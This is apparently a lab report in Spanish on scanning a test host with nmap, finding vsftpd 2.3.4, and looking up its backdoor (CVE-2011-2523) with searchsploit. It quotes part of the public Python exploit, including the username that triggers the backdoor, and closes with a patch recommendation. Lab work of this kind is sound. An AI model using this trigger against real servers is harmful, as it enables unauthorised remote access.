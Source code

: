 #  Informe de Detección de Servicios y Búsqueda de Vulnerabilidades

## 1. Esacaneo de servicios con Nmap
**Comando ejecutado:**

```bash
nmap -sV 192.168.1.11
```
**Resultados del escaneo:**

Se identificaron los siguientes servicios activos en la direccion IP 192.168.1.11:

- **FTP:** vsftpd 2.3.4 (vulnerable)
- **SSH:** OpenSSH 4.7p1
- **HTTP:** Apache 2.2.8
- **MYSQL:** 5.0.51a-3ubuntu5
- **PostgreSQL:** 8.3.0-8.3.7

**Evidencia**
![Deteccion de servicios](Capturas/Deteccion%20de%20servicios.png)
---
## 2. Busqueda de Vulnerabilidades con Searchsploit

**Comando ejecutado:** 
```bash
searchsploit vsftpd 2.3.4
```
| Exploit Tittle| Ruta del Exploit | 
|--------------|--------------|
| vsftpd 2.3.4-Backdoor Command Execution    | unix/remote/49757.py| 

**Evidencias:**
![searchsploit](Capturas/searchsploit.png)
---
## 3. Analisis del Exploit (Backdoor) en python

**Exploit usado:** vsftpd 2.3.4 - Backdoor Command Execution.

**Autor del Exploit:** HerculesRD.

**CVE:** CVE-2011-2523.

**Descripcion:** Explota una puerta trasera en vsftpd 2.3.4 al usar un usuario con :) para activar acceso remoto por telnet.

**Fragmentos del script:**

```bash
user = "USER nergal:)"
password = "PASS pass"

tn = Telnet(host, portFTP)
tn.read_until(b"(vsFTPd 2.3.4)")
tn.write(user.encode('ascii') + b"\n")
tn.read_until(b"password:")
tn.write(password.encode('ascii') + b"\n")
```
**Evidencia:**
![searchsploit](Evidencias/searchsploit%20-x.png)
 ---

 ## Conclusion
 El escaneo identifico el servicio FTP vsftpd 2.3.4 que contiene una **puetrta trasera critica** (CVE-2011-2523). Se verifico que existen exploits publicos, uno de los cuales se encuentran implementado en Python y ejecutando exitosamente en el entorno de pruebas.

 **Recomendacion:** Actualizar el servicio FTP inmediatamente o deshabilitarlo si no es esencial.

 **Archivos de evidencia**
 - Deteccion de servicios.png
 - searchsploit.png
 - searchsploit -x.png
 